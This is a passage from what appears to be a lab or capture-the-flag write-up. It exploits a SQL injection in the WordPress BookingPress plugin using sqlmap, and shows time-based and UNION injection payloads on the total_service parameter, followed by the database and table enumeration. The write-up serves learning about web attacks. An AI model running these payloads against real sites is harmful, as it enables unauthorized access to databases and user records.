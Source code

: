 ```
    Payload: action=bookingpress_front_get_category_services&_wpnonce=0aee0f5c43&category_id=33&total_service=1) AND (SELECT 9476 FROM (SELECT(SLEEP(5)))ZGjP) AND (6115=6115

    Type: UNION query                                      
    Title: Generic UNION query (NULL) - 9 columns          
    Payload: action=bookingpress_front_get_category_services&_wpnonce=0aee0f5c43&category_id=33&total_service=1) UNION ALL SELECT NULL,NULL,NULL,NULL,CONCAT(0x717a7a6b71,0x62586b4c4f466c65434f794a57595241745545526c6d45784e6f6e4954554464
46755a6b726c6c6b,0x71716a7671),NULL,NULL,NULL,NULL-- -
---                                                        
[18:17:01] [INFO] the back-end DBMS is MySQL               
web application technology: Nginx 1.18.0, PHP 8.0.24       
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)              
[18:17:01] [INFO] fetching database names                  
available databases [2]:                                   
[*] blog                                                   
[*] information_schema
```

We can see that there are two databases. The one that piques my interest is the blog one, so I'll list the tables of that:

```
┌──(kali㉿kali)-[~]491/793]
└─$ sqlmap -r admin.req -p total_service -D blog --tables
...
[27 tables]
+--------------------------------------+
| wp_bookingpress_appointment_bookings |
| wp_bookingpress_categories           |
| wp_bookingpress_customers            |
| wp_bookingpress_customers_meta       |
| wp_bookingpress_customize_settings   |
| wp_bookingpress_debug_payment_log    |
| wp_bookingpress_default_daysoff      |
| wp_bookingpress_default_workhours    |
| wp_bookingpress_entries              |
| wp_bookingpress_form_fields          |
| wp_bookingpress_notifications        |
| wp_bookingpress_payment_logs         |
| wp_bookingpress_services             |
| wp_bookingpress_servicesmeta         |
| wp_bookingpress_settings             |
| wp_commentmeta                       |
| wp_comments                          |
| wp_links                             |
| wp_options                           |
| wp_postmeta                          |
| wp_posts                             |
| wp_term_relationships                |
| wp_term_taxonomy                     |
| wp_termmeta                          |
| wp_terms                             |
| wp_usermeta                          |
| wp_users                             |
+--------------------------------------+
```
